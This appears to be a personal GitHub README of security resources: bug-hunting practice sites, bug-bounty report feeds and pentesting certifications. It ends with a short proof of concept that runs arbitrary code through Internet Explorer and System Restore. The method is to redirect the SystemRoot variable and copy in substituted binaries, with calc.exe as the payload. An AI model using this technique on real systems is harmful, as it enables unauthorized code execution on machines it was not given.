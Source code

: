 # RandomCyberStuff


## Bug Hunting sites

 - Pentesterlab: https://pentesterlab.com/
 - hackthebox: https://www.hackthebox.com/
 
 ## Bug reports
 
- Hacker One: https://Hackerone.com/hacktivity
- Bug Croud: https://bugcroud.com/crowdstream
- Pen tester Land: https://pentester.land


## Certs

### PNPT Practical Network Penetration Tester Certification
- https://certifications.tcm-sec.com/pnpt/

### eCPPT - eLearnSecurity Certified Professional Penetration Tester
- [eLearnSecurity Certified Professional Penetration Tester](https://elearnsecurity.com/product/ecpptv2-certification/)


## IE running code
IE navigating to `shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}` you can spawn System restore. If you modify the `SystemRoot` enviroment variable and copy over DLLs you run them.


POC: 
mkdir %temp%\System32
FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL
set a=C:\Windows\System32\calc.exe
copy %a% %temp%\System32\rstrui.exe /Y > NUL
set SystemRoot=%temp%
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

